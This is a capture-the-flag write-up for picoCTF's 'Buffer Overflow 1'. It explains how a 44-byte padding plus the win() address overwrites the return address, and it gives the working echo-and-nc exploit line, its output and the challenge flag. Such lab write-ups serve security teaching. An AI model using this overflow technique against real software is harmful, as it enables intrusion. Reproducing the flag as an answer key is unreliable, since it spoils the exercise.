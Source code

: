 # Buffer Overflow 1

## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 50659

## Solution
From the ELF file provided, try assembling it using ghidra.
![buf-ov1-1](https://i.imgur.com/UxTIQIf.png)
In the vuln function there is a buffer located at EBP-0x28
The buf buffer has a size of 40 bytes (0x28), but there are 4 additional bytes because we want to overwrite the return address on the stack.

Then, because this program has a win function that prints the contents of flag.txt, so we direct the execution to win() by overwriting the return address on the stack
![buf-ov1-2](https://i.imgur.com/wbBPR1L.png)
Just combine the exploit:
```
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | nc saturn.picoctf.net 56362
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## Flag
    picoCTF{addr3ss3s_ar3_3asy_b15b081e}